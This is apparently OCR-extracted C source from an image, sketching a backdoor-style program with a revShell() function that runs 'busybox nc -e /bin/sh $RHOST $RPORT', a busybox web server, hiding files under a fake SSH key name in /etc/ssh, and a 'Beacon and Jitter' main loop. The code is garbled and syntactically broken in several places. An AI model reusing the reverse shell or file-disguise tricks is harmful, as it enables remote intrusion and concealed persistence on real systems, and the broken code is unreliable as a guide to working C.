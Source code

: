 ```c
    // check
    system("busybox httpd -f -p $PORT -h .")
}

void revShell()
{
    system("which nohup");
    // cd to /dev/shm
    system("busybox nc -e /bin/sh $RHOST $RPORT")
    
    system("busybox nc -e /bin/sh $RHOST $RPORT")
}

void compCheeseBox(*char sourcefile)
{
    // flags
    system("gcc NAME")
}

void backupCheeseBox()
{
    unwrapSrc();
    // flags
    system("mv src.c > /etc/ssh/ssh_host_cryptox_key.pub");
    compCheeseBox(src.c);
    system("mv bin > /etc/ssh/ssh_host_cryptox_key.pub");
}

void unwrapSrc() 
{
    system("echo SRC > src.c");
}


int main(void)
{
    system("gcc --version");
    system("mount | grep shm");   
    
    // Beacon and Jitter and Listen and Cheese and Box
    while  {
        
    } else {
        exit();
    }

    
    exit();
    return 0;
}
```